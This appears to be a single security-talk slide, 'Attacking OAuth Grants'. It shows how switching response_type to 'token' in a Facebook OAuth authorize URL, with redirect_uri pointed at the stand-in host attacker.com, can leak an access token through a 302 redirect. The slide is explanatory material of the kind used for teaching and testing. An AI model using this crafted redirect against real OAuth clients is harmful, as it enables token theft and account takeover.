

# Attacking OAuth Grants
Win!
Possible bypass? try change response type to token

	https://facebook.com/oauth/authorize?
	client_id=…&response_type=token&
	redirect_uri=https://attacker.com/callback

If the client is configured to support implicit grant,
we get a:
	HTTP 302 Redirect
	Location: https://attacker.com/callback#token=eyJhbGci…